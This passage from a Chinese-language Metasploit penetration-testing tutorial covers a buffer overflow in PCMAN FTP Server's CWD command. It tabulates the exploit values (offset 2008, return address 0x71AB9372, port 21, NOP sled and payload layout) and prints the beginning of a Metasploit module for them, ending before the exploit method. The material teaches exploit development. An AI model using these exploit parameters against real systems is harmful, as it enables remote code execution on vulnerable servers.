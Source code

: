 我们可以看到计算器应用程序已经弹出，这表明利用正在正确工作。

# 收集基本要素

让我们找出从前面的利用中需要获取哪些基本值，以便从下表中生成 Metasploit 中等效模块：

| **序列号** | **变量** | **值** |
| --- | --- | --- |
| 1 | 偏移值 | `2008` |
| 2 | 使用 JMP ESP 搜索在可执行模块中找到的目标返回/跳转地址/值 | `0x71AB9372` |
| 3 | 目标端口 | `21` |
| 4 | 用于删除不规则性的前导 NOP 字节到 shellcode 的数量 | `10` |
| 5 | 逻辑 | `CWD`命令后跟着 2008 字节的垃圾数据，然后是 EIP、NOPs 和 shellcode |

我们有构建 Metasploit 模块所需的所有信息。在下一节中，我们将看到 Metasploit 如何辅助 FTP 进程以及在 Metasploit 中创建利用模块有多么容易。

# 生成一个 Metasploit 模块

构建 Metasploit 模块的最佳方法是复制现有的类似模块并对其进行更改。但是，`Mona.py`脚本也可以动态生成特定于 Metasploit 的模块。我们将在本书的后面部分看到如何使用`Mona.py`脚本生成快速利用。

现在让我们看一下 Metasploit 中利用的等效代码：

```
class MetasploitModule < Msf::Exploit::Remote 
  Rank = NormalRanking 

  include Msf::Exploit::Remote::Ftp 

  def initialize(info = {}) 
    super(update_info(info, 
      'Name'           => 'PCMAN FTP Server Post-Exploitation CWD Command', 
      'Description'    => %q{ 
          This module exploits a buffer overflow vulnerability in PCMAN FTP 
      }, 
      'Author'         => 
          [ 
            'Nipun Jaswal' 
          ], 
      'DefaultOptions' => 
        { 
          'EXITFUNC' => 'process', 
          'VERBOSE'  => true 
        }, 
      'Payload'        => 
        { 
          'Space'   => 1000, 
          'BadChars'  => "\x00\xff\x0a\x0d\x20\x40", 
        }, 
      'Platform'       => 'win', 
      'Targets'        => 
        [ 
          [ 'Windows XP SP2 English', 
            { 
              'Ret' => 0x71ab9372, 
              'Offset' => 2008 
            } 
          ], 
        ], 
      'DisclosureDate' => 'May 9 2016', 
      'DefaultTarget'  => 0)) 
```
